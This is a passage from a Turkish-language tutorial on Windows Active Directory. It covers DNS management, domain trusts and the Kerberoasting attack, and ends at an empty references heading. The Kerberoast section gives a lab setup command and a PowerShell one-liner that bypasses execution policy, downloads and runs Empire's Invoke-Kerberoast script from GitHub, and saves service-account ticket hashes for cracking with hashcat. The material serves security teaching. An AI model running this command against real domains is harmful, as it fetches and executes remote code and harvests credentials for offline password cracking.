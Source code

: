 Dns servisini yükledikten sonra **windows+r → dnsmgmt.msc** ile açılan pencerede, yeni DNS kayıtları atanabilir, (ör : A, CNAME,MX) veya load balance (yük dengeleme) işlemleri için AD içerisinde ikinci bir DNS sunucusu yaratılabilir.

![Windows%20Active%20Directory%20Ortam%C4%B1%20Nedir,%20Nas%C4%B1l%20C%CC%A7al%C4%B1%200ec163af1f53499ca999de0e7d87bdd4/Untitled%203.png](Windows%20Active%20Directory%20Ortam%C4%B1%20Nedir,%20Nas%C4%B1l%20C%CC%A7al%C4%B1%200ec163af1f53499ca999de0e7d87bdd4/Untitled%203.png)

## Active Directory'de Trust(Güven)

Active directory ortamında trust ağ üzerindeki çeşitli kaynaklara, kullanıcılara, gruplara ve bilgisayarlara erişilmesini mümkün kılar. Bu işlem iki domain arasında kimlik doğrulama ile gerçekleşir. İki adımlı bir süreçtir:

1. Trust sağlanır
2. İzinler atanır.

![Windows%20Active%20Directory%20Ortam%C4%B1%20Nedir,%20Nas%C4%B1l%20C%CC%A7al%C4%B1%200ec163af1f53499ca999de0e7d87bdd4/Untitled%204.png](Windows%20Active%20Directory%20Ortam%C4%B1%20Nedir,%20Nas%C4%B1l%20C%CC%A7al%C4%B1%200ec163af1f53499ca999de0e7d87bdd4/Untitled%204.png)

Trust işlemi sağlanırken önceden bahsettiğimiz kerberos kimlik doğrulama aşamalarından geçilir. İlerleyen kısımlarda bahsedeceğimiz kerberoast isimli saldırı tipinde bu trust aşamasını hedef alıyor olacağız.

## Kerberoast

Kerberoasting, saldırganların active directory ortamındaki servis hesaplarınının kimlik bilgilerine offline bir şekilde brute force yapabilmesidir. Bu saldırı legacy windows istemcilerinin active directory tarafından desteklenmesi, kerberos ticketlarının şifrelenmesinde ve imzalanma türünden kaynaklanmaktadır. Bir kullanıcı spesifik bir kaynağı kullanmak istediği zaman imzalı bir kerberos ticket'ı alırlar, imzalama işlemi ise o servisi yürüten hesabın NTLM hashi ile yapılır. Sorun da buradan kaynaklanmaktadır.

Aşağıdaki komut ile bu durumu simüle etmek amacıyla bir kullanıcı ardından ise bir servis oluşturuyoruz.

```
net user kullanici1 Passw0rd! /ADD /DOMAIN
setspn -s http/<domain>:80 kullanici1

```

ardından github üzerinden bu saldırıyı gerçekleştiren scripti indirip çalıştırıyoruz:

```
powershell -ep bypass -c "IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1') ; Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII hash.txt"
```

Elde edilen hash hashcat ile kırılabilir ve parola elde edilebilir.

![Windows%20Active%20Directory%20Ortam%C4%B1%20Nedir,%20Nas%C4%B1l%20C%CC%A7al%C4%B1%200ec163af1f53499ca999de0e7d87bdd4/Untitled%205.png](Windows%20Active%20Directory%20Ortam%C4%B1%20Nedir,%20Nas%C4%B1l%20C%CC%A7al%C4%B1%200ec163af1f53499ca999de0e7d87bdd4/Untitled%205.png)

## Kaynakça ve İleri Okuma
